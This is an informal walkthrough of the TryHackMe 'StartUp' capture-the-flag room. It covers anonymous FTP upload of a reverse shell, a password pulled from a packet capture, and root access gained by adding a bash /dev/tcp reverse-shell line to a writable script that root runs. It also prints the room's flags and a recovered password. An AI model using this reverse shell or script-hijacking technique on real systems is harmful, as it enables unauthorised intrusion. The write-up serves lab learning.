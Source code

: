 ### StartUp ###

export IP=10.10.109.152

Found files directory:
notice.txt:
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

So maya is a user

there is also an empty dir names ftp..potentially a hint to try ftp..

meanwhile nmap showed anonymous login is permitted...

did ls -la in the home dir and found .test.log file and ftp is completely empty.

test.log had :test written on it...maybe its just a password...idk or a rabbithole maybe

so no luck there butttt.....

since i have ftp login as the same directory as the website i can potentially upload a rev shell

Bingo...i can upload files in the ftp directory....

#  WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111) 

got stuck on this error lol....my ip was wrong..

# Recipe.txt:
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was *love*.

ls /home: lennie

so looks like a horizontal priv-esc first

find / -perm -u+s -type f 2>/dev/null -user lennie


# After poking around a little bit...

found incdents folder which belongs to me whihc is strange...
contains a .pcapng file which is default for wireshark..though i cannot bring the file in my pc(i can using a python server and all)...but i catted out and was looking through the file trying to find a pass and i did:
c4ntg3t3n0ughsp1c3
ssh'ed lennie with this password:

# User.txt:
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

For starters there are alot of files this user has looking through them one by one obio haha

# Concern.txt:
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie

# list.txt:
Shoppinglist: Cyberpunk 2077 | Milk | Dog food

# Note.txt:
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.

# planner.sh:
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh


edited the print.sh and added this following line:

bash -i >& /dev/tcp/10.11.18.102/6000 0>&1

# Root.txt:
THM{f963aaa6a430f210222158ae15c3d76d}